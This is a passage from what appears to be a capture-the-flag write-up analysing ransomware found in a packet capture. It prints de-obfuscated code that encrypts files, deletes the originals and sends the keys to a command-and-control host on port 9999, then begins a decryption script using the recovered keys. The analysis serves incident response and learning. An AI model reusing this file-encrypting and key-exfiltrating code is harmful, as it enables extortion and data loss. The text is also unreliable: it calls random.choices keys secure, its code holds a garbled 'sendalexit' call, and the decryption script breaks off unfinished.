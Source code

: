 The script could be found analyzing the exported objects in the found `dump.pcap`.
After a quick de-obfuscation, here are the important parts.

```python
from Crypto.Cipher import AES

def addPadding(u):
    # add padding for aes 16 block size

class V():
    def __init__(self):
        # get user OS

    def encryptFile(self, key, file):
        try:
            f = open(file, 'rb')
            d = f.read()
            f.close()
            d = addPadding(d)
            q = key.encrypt(d)
            f = open(file+'.enc', 'wb')
            f.write(q)
            f.close()
            os.remove(file)
        except:
            pass

    def gen_keys_and_encrypt(self):
        M = []
        for x in range(16):
            key = ''.join(random.choices(string.ascii_letters, k=16))
            M.append(key)
        u = ','.join(k for k in M)
        u = bytes(u, "utf-8")
        u = base64.b64encode(u)
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('192.168.1.38', 9999))
        s.sendalexit(bytes(self.id, "utf-8"))
        s.recv(1)
        s.sendalexit(u)
        encKey = AES.new(key, AES.MODE_ECB)
        # encrypt all files with ext ['doc', '.txt', '.rc', '.ini', '.dat', '.conf', '_history']:
```

The generated keys themselves are secure,

```python
key = ''.join(random.choices(string.ascii_letters, k=16))
```

but they are then sended to CnC server using only base64.

Following the tcp stream to `192.168.1.38:9999` in the `dump.pcap` file, reveals the base64 keys.

```python
from Crypto.Cipher import AES

encFile = ""
with open('secrets.txt.enc', 'r') as f:
    encFile = f.read()

keys = ["mTGeljhDRKASKKhQ","FLrsSEveQQiloPRn","XedXHYBUHpIXDBJP","IOGPErjosxNiQrNM","RzvpbEURLdFfaGFM","vdBVDCvixjShCQvy","EQlcsnUtzCHyFPHM","JkDijgAFiVBWJaLz","ghcPIOSqCdCTqOpD","DneCwbkDHkojppHm","lVRZReAlaIzHgisc","NdjcgVVjiinxftCC","RkgLpRCqrnibrqsN","kzewteAgPEZdkzQJ","HnpGoUeqckEqxpQm","LSNWRarThRdiPLpM"]

for key in keys:
```